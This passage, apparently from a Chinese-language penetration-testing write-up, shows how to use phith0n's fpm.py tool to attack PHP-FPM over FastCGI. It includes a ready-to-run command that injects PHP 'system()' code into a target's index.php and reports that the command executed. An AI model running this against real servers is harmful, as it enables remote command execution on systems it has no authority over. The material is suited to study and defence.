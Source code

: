 [![](assets/1698897074-2776fc88d5399c1969fc6e97353c9f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134736-8e1130a0-b2e5-1.png)

### 利用 phith0n 大神的 fpm.py

-   项目地址：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

> “兼容 Python2 和 Python3，方便在内网用。之前好些人总是拿着一个 GO 写的工具在用，又不太好用。实际上理解了 fastcgi 协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```plain
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：
